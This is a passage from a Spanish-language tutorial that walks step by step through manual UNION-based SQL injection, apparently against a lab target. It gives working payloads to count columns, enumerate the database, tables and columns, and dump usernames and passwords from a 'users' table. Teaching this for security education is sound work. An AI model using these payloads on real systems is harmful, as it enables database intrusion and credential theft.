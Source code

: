 El número 100 es solo ilustrativo, ya que dificilmente nos encontraremos con una tabla que contenga dicho número de columnas. Este número deberá ir decreciendo hasta que el sistema no nos devuelva error. Se recomienda hacerlo de 10 hacia atrás, o incluso hacia adelante:

    ' union select 1,2,3-- -

![8]

Cuando el sistema no devuelve error alguno e imprime los números de la consulta en pantalla, podemos decir que hemos encontrado el número correcto de columnas. Ahora, deberemos emplear alguno de dichos números para imprimir la información que consultemos. Emplearemos la columna 3.

Primero enumeramos la base de datos en uso:

    ' union select 1,2,database()-- -

![9]

Cuando tengamos la base de datos, el siguiente paso es encontrar una tabla que sea de interés; normalmente, aquella que contenga usuarios y contraseñas.

    ' union select 1,2,table_name from information_schema.tables where table_schema='db' limit 1,1-- -

El limit al final de la consulta podemos modificarlo para enumerar tabla por tabla. Esto se puede hacer modificando el primer número desde 0 en adelante. Es decir, "limit 0,1", "limit 1,1", etc.

![10]

Como podemos observar, la tabla se llama **users**. Es un excelente punto donde comenzar. El siguiente paso es enumerar las columnas con las que cuenta la tabla y que contengan tanto nombres de usuario como contraseñas.

    ' union select 1,2,column_name from information_schema.columns where table_name='users' limit 0,1-- -

1. Cuando el limit está establecido en 0,1 obtenemos la primera columna, la cual es **username**
2. Cuando el limit está establecido en 1,1 obtenemos la segunda columna, la cual es **pwd**

![11]

![12]

Si continuamos enumerando columnas, veremos que ya no son de relevancia, así que nos podemos quedar solo con las primeras dos.

![13]

El último paso de esta enumeración manual de la base de datos es obtener los datos finales de cada columna. Para ello, la consulta cambia un poco:

    ' union select 1,2,group_concat(username,0x3a,pwd) from users-- -

**Group_concat** nos permitirá obtener dos datos en una sola consulta (en este caso, username y pwd) separados por un símbolo de ":" (0x3a en hexadecimal).

![14]
